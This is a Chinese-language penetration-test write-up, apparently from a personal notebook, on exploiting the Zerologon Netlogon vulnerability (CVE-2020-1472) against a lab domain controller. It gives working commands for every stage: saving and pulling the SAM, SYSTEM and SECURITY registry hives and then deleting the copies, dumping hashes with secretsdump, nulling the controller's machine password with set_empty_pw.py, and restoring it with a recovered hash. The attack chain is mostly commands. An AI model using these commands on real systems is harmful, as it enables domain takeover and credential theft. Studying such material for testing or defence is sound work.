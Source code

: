 


利用域控的身份，直接添加域管，然后再用sam取出
> > reg save HKLM\SYSTEM system.save
> > reg save HKLM\SAM sam.save
> > reg save HKLM\SECURITY security.save
> > get system.save
> > get sam.save
> > get security.save
> > del /f system.save
> > del /f sam.save
> > del /f security.save

利用sam查看修改之前的hash<br />python secretsdump.py -sam sam.save -system system.save -security security.save LOCAL<br /> ![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614789638464-3e146d85-94c1-4d26-99eb-039440bed946.png#height=361&id=AWL1D&originHeight=481&originWidth=770&originalType=binary&ratio=1&rotation=0&showTitle=false&size=499482&status=done&style=none&title=&width=578)<br />`$MACHINE.ACC`后面的就是原来的机器哈希<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611394477659-ab6bebbc-81fe-44b7-abae-cf3e18eab300.png#height=365&id=RHjrE&originHeight=486&originWidth=789&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=592)<br />然后恢复域的hash<br />python3 reinstall_original_pw.py owa 1.1.1.20 2be10fb298aa42d3c09f77af5a30febd<br /> ![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614789194652-04c62112-c26e-4e99-8149-225ef015d980.png#height=320&id=Xmttq&originHeight=427&originWidth=893&originalType=binary&ratio=1&rotation=0&showTitle=false&size=154999&status=done&style=none&title=&width=670)

可以用<br />proxychains python secretsdump.py god.org/'owa$'@1.1.1.20 -no-pass<br />再检测是不是空密码可以dump东西，<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614789262453-af4f3c75-bb9d-4cd6-b0ed-a3e6425cba38.png#height=121&id=gzhEh&originHeight=162&originWidth=1363&originalType=binary&ratio=1&rotation=0&showTitle=false&size=79830&status=done&style=none&title=&width=1022)


-----------------
<a name="CVg6R"></a>
## Netlogon（CVE-2020-1472）再复现
攻击路线如下。<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614826454293-23f9d298-1641-49f6-a9f3-b4c316ac5721.png#height=355&id=Vth8n&originHeight=355&originWidth=765&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=765)<br />挂上代理之后，通过信息收集获取内网主机1.1.1.20<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614826454579-a64f4bf7-4c1c-4684-8917-de0eef9909c8.png#height=453&id=Ul1kk&originHeight=453&originWidth=1171&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=1171)<br />通过端口扫描发现，该主机开放了88端口和53端口，一般域控都会开启dns和88端口的krb协议，并且445端口中探测出来存在GOD域，主机名为OWA。<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614826454929-5c6cec81-12ec-4467-9e4d-7a8e17fe1194.png#height=368&id=QGqkB&originHeight=368&originWidth=882&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=882)<br />所以考虑内网尝试一下打Netlogon<br />考虑到入口的主机是linux，不像windows那样比较方便的获取主机名，并且确定一下漏扫是否有误报，所以用OXID获取主机名，确认是owa无误。<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614826455309-ef804c1e-0c34-4418-b927-8c0b98d4c378.png#height=279&id=hsAzG&originHeight=279&originWidth=873&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=873)<br />利用CVE-2020-1472的poc打过去，返回是 Success。确认是存在漏洞，可以进一步获取域管权限<br />python zerologon_tester.py owa 1.1.1.20<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614826455633-a5a7a16d-2d8b-48ce-a353-923fbb1af7ba.png#height=195&id=O75Ti&originHeight=195&originWidth=1204&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=1204)<br />利用[https://github.com/risksense/zerologon](https://github.com/risksense/zerologon)中的脚本把域控密码清零。<br />python set_empty_pw.py owa 1.1.1.20<br />Success！字段就是打成功了。如果失败的话，会有延时的英文字段<br />![](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614826455949-4a6803cb-3ced-4936-b9d7-2692ae7aa27d.png#height=347&id=kFwo5&originHeight=347&originWidth=902&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=902)
